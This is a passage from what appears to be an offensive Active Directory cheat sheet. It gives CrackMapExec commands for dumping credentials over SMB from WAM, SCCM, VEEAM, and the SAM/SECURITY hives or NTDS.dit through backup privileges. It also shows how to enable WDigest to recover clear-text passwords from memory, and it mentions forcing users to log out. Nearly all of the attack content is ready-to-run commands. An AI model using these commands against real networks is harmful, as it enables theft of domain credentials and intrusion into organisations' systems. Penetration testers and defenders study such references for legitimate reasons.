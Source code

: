 ⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M wam
```

## Dump SCCM
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Domain_Admin

Dump the SCCM using methods from dploot.

⚠️ Requirement : Domain admin or Local admin privileges on target Domain Controller

```bash
cme smb <dc-ip> -u <user> -p <password> --sccm
```

## Dump VEEAM
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Admin

Dump the VEEAM credentials from the VEEAM server SQL database.

⚠️ Requirement : Local admin privileges on the remote target (use --local-auth if the user is a local account)

```bash
cme smb <ip> -u <user> -p <password> -M veeam
```

## Dump with BackupOperator priv
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Domain_user

Dump SAM, SYSTEM, SECURITY (and the NTDS.dit on DC) on the remote target.

⚠️ Requirement : Controlled user has SeBackupPrivilege. No admin privs needed.

```bash
cme smb <ip> -u <user> -p <password> -M backup_operator
```

## Enable wdigest
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #access/Domain_user

Enable/disable the WDigest provider and dump clear-text credentials from LSA memory.

```bash
cme smb <ip> -u <user|Administrator> -p <password> --local-auth --wdigest enable
```

## Loggout user
#assessment/AD #attack_type/Dump #port/445 #port/139 #protocol/smb #warning/modify_target #access/Domain_user

Can be useful after enable wdigest to force user to reconnect.
